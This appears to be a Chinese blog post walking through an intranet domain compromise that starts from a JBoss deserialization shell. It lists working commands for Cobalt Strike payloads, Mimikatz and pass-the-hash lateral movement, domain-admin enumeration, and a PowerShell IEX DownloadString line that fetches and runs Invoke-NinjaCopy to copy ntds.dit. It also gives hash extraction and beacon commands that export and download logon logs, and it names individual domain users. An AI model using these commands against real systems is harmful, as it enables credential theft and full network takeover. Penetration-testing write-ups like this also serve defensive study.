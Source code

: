 ```yaml
---
title: 【域渗透】JBoss引起的内网渗透
date: 2019-05-26 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。
---
```

# 切入点

Jboss的反序列化漏洞，获取到shell，就不多说了，远程部署war。

# 信息收集

```
whoami  --> windows-7p8piq7\administrator
ipconfig --> 192.168.58.231
tasklist --> 360EntClient.exe \ZhuDongFangYu.exe .. (360全家桶)
systeminfo --> Windows Server 2008 R2 Enterprise
```

# 横向拓展

## 前奏

用`CS`生成`powershell`的`exp`就过了。到目标机`cmd`下执行弹回。由于权限较高，

直接`run Mimikatz` 获取到了当前主机用户的ntlm hash。

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag1.png)

## 方法

使用`Cobalt Strike`的ARP扫描（因为net view使用不了），使得`Targets`有记录
。
![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag2.png)

用比较典型的`hash传递`碰一下看看运气怎么样。

登陆情况如下：

```
192.168.58.1 # 成功
192.168.58.18 # 成功
....
192.168.58.3 # 失败
192.168.58.7 # 失败
....
192.168.58.68 # 成功
192.168.58.21 # 成功
```

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag3.png)

这个过程就是不断的进行`hash注入`，不断的`dump密码`，结果就如上图。看`Credentials`里是否存在域管用户账密。
![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag4.png)

## 定位

```
从58.18的机子上发现存在域： 

所属域 -->MERCURY.COM  近1400个域用户...

nltest /dclist:MERCURY.COM #查看域控 （2个)

pdc.mercury.com [PDC]  --> 主dc --> 192.168.58.2
BDC.mercury.com        --> 备dc --> 192.168.58.1
-----------------------------------------------------------------------------

net group "domain admins" /domain  #查看域管理员 （9个)
-----------------------------------------------------------------------------
Administrator            chenfeng                 chudonggen               
dongzhiwei               IT                       lifen                    
qiaopeng                 weiwei                   zhangxuejun 

net group "domain controllers" /domain  #查看域控制器
-----------------------------------------------------------------------------
BDC$                     PDC$
```

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag5.png)


然而发现我已经获取到了dc的账号密码。并在`CS`上上线了，这就意味的此时的域已经沦陷。

## 问题

- vssadmin 无法提取出ntds.dit、在系统中卡死
- ntdsutil 被破坏、无法运行

## 突破方法：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1'); Invoke-NinjaCopy -Path "C:\windows\ntds\ntds.dit" -LocalDestination "C:\Users\dongzhiwei\Desktop\ntds.dit"
```

这里用powerSploit框架中的Invoke-NinjaCopy,远程复制文件，成功提取到ntds.dit / system.hive

## 提取

参考链接：https://github.com/zcgonvh/NTDSDumpEx

```
ntdsdumpex.exe -d ntds.dit -o hash.txt -s system.hiv
```

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag6.png)

之前给自己挖了个坑，关于如何去获取域用户的登录IP，除了nmap外，可以ping域用户名，然而这是一个非常错误的认知，这种前提是UNC为系统机器名，这种情况少之又少。

参考klion牛的方法：

从目标主控中导出成功登录日志,来定位指定目标机器

```
beacon> shell hostname
beacon> shell wevtutil epl Security c:\windows\logs\risalogs.evtx /q:"*[EventData[Data[@Name='LogonType']='3'] and System[(EventID=4624) and TimeCreated[timediff(@SystemTime) <= 4449183132]]]"
beacon> shell tasklist | findstr "wevtutil.exe"
beacon> shell dir c:\windows\logs\risalogs.evtx
beacon> download c:\windows\logs\risalogs.evtx
beacon> downloads
```

利用 `Log Parser` 日志分析工具,从log中匹配：

```
LogParser.exe -i:EVT -o csv "SELECT TO_UPPERCASE(EXTRACT_TOKEN(Strings,5,'|')) as NAME,TO_UPPERCASE(EXTRACT_TOKEN(Strings,18,'|')) as IP FROM c:\risalogs.evtx" > C:\log.txt

进行去重、替换：

grep -v '\$' log.txt | sort | uniq | egrep -v 'ANONYMOUS LOGON|-|:' > login_succeed.txt
```

![img](https://c1y2m3.oss-cn-beijing.aliyuncs.com/dag7.png)

# 收尾

 从内网中获取了大量主机权限，VPN、核心代码，数据库等，逐进行放弃权限，删除后门，所有操作并未更改，下载，删除等一切损害该公司的行为。
